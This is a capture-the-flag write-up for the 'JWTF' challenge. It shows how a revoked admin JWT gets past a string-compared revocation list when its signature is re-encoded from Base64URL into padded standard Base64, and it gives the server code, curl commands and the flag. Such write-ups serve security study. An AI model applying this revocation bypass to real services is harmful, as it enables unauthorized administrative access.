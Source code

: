 **Challenge Title:** JWTF

**Vulnerability:** JWT Revocation List (JRL) Bypass via Signature Encoding Mismatch

---

## Source Code & Key Endpoints

```python
# server.py (excerpt)

FLAG = open('flag.txt','r').read()
APP_SECRET = os.urandom(32).hex()
ADMIN_SECRET = os.urandom(32).hex()

# JRL holds revoked tokens
jrl = [
    jwt.encode({"admin": True, "uid": '1337'}, APP_SECRET, algorithm="HS256")
]

@app.route('/get_admin_cookie')
def get_admin_cookie():
    secret = request.args.get('adminsecret')
    uid    = request.args.get('uid')
    if secret == ADMIN_SECRET and uid != '1337':
        resp = make_response('Cookie set')
        resp.set_cookie('session',
            jwt.encode({"admin": True, "uid": uid}, APP_SECRET, algorithm="HS256"))
        return resp
    return redirect('/')

@app.route('/flag')
def flag():
    session = request.cookies.get('session','').strip().replace('=','')
    if session in jrl:                    # ← JRL string‐compare check
        return redirect('/')
    payload = jwt.decode(session, APP_SECRET, algorithms=["HS256"])
    if payload.get('admin'):
        return FLAG
    return redirect('/')
```

---

## Why `/get_admin_cookie` Fails

We cannot forge an admin token at `/get_admin_cookie` because we don’t know **ADMIN\_SECRET**, which is a random 32-byte hex string generated at startup and never revealed.

---

## What We Need for the Flag

1. A valid JWT with `"admin": true`.
2. That token **must not** match any entry in **jrl** (the revocation list).

---

## What to Bypass

The server’s `/flag` endpoint performs a **raw string comparison** against `jrl` **before** decoding the token (line marked above). If our token string ≠ any in `jrl`, it proceeds to verify and decode.

---

## Exploit Steps

### 1. Retrieve the Revoked Admin Token

```bash
curl http://HOST:1337/jrl
```

```json
[
  "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
   eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.
   BnBYDobZVspWbxu4jL3cTfri_IxNoi33q-TRLbHV-ew"
]
```

### 2. Convert Signature Encoding

* **JWT format**: `<header>.<payload>.<signature>` where header/payload/signature are **Base64URL**-encoded ([JSON Web Tokens - jwt.io][1]).
* **Base64URL** replaces `+`→`-`, `/`→`_` and omits `=` padding ([Medium][2]).
* We change only the signature segment:

  ```diff
  - BnBYDobZVspWbxu4jL3cTfri_IxNoi33q-TRLbHV-ew
  + BnBYDobZVspWbxu4jL3cTfri/IxNoi33q+TRLbHV+ew==
  ```

  (replace `-`→`+`, `_`→`/`, then add `=` until length mod 4 = 0) ([Base64 Guru][3]).

### 3. Why This Bypasses JRL

* The server checks `if session in jrl:` using a **byte‐for‐byte** comparison of the cookie string.
* Our re-encoded JWT string no longer matches the stored JRL entry, so it skips the revoke check ([GitHub][4]).
* PyJWT’s decoder happily accepts the padded Base64 signature even though RFC 7515 mandates unpadded Base64URL for JWTs ([IETF][5]).

```diff
@app.route('/flag')
def flag():
    session = request.cookies.get('session','').strip().replace('=','')
-   if session in jrl:
+   if session in jrl:   # our modified string ≠ original
        return redirect('/')
    payload = jwt.decode(session, APP_SECRET, algorithms=["HS256"])
```

### 4. Fetching the Flag

Set your `session` cookie to the modified token and request `/flag`:

```bash
curl -b "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwidWlkIjoiMTMzNyJ9.BnBYDobZVspWbxu4jL3cTfri/IxNoi33q+TRLbHV+ew==" \
     http://HOST:1337/flag
```

**Flag:**

```
byuctf{idk_if_this_means_anything_but_maybe_its_useful_somewhere_97ba5a70d94d}
```

[1]: https://jwt.io/introduction?utm_source=chatgpt.com "JSON Web Token Introduction - jwt.io"
[2]: https://medium.com/%40bagdasaryanaleksandr97/understanding-base64-vs-base64-url-encoding-whats-the-difference-31166755bc26?utm_source=chatgpt.com "Understanding Base64 vs Base64 URL Encoding - Medium"
[3]: https://base64.guru/standards/base64url?utm_source=chatgpt.com "Base64URL | Base64 Standards"
[4]: https://github.com/jpadilla/pyjwt/issues/676?utm_source=chatgpt.com "JWTs containing base64 padding are erroneously accepted #676"
[5]: https://www.ietf.org/archive/id/draft-jones-json-web-token-02.html?utm_source=chatgpt.com "JSON Web Token (JWT) - IETF"

